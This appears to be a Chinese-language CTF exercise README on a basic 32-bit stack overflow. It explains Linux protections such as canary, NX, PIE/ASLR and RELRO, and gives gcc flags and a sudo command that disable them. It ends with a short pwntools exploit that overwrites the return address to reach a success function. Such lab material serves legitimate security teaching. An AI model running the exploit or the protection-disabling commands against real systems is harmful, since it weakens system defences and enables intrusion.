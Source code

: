 # PWN Exercise - Stack Overflow

## 准备

- gdb 插件 pwndbg
- pwntools 

## 保护机制
### CANNARY
栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中我们将cookie信息称为canary。
### NX
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
### PIE&ASLR
内存地址随机化机制（address space layout randomization)，有以下三种情况

 - 表示关闭进程地址空间随机化。
 - 表示将mmap的基址，stack和vdso页面随机化。
 - 表示在1的基础上增加栈（heap）的随机化。

PIE和ASLR不是一样的作用，ASLR只能对堆、栈和mmap随机化，而不能对如代码段，数据段随机化，使用PIE+ASLR则可以对代码段和数据段随机化。

### RELRO
在Linux系统安全领域数据可以写的存储区就会是攻击的目标，尤其是存储函数指针的区域。 所以在安全防护的角度来说尽量减少可写的存储区域对安全会有极大的好处。   
RELRO 全名為 RELocation Read Only。共有三種保护模式，分別為 No / Partial / Full。

- No RELRO - Link Map、GOT 可写
- Partial RELRO - Link Map 不可写、GOT 可写
- Full RELRO - Link Map、GOT 皆不可写

## 编译

- NX：-z execstack / -z noexecstack (关闭 / 开启)
- Canary：-fno-stack-protector /-fstack-protector /  
- -fstack-protector-all (关闭 / 开启 / 全开启)
- PIE：-no-pie / -pie (关闭 / 开启)
- RELRO：-z norelro 

gcc -m32 -no-pie -z norelro -fno-stack-protector pwn0.c -o pwn0 
关闭地址随机化
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"

## PWN
>题目:输出You Hava already controlled it.为利用成功



`pwn checksec`
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


### 计算偏移
```
               +-----------------+
               |     retaddr     |
               +-----------------+
               |     saved ebp   |
        ebp--->+-----------------+
               |                 |
               |                 |
               |                 |
               |                 |
               |                 |
               |                 |
  s,ebp-0x14-->+-----------------+
```
### EXP

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
elf = ELF('pwn0')
io = process(elf.path)

#开启新窗口用于gdb调试
#gdb.attach(io,'b * 0x0804921e') 
success_addr = 0x080491b6
payload = b'a'*0x14 + b'bbbb' + p32(success_addr)
io.sendline(payload)
io.interactive()
```

## Ref
- [linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)
- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stackoverflow-basic-zh/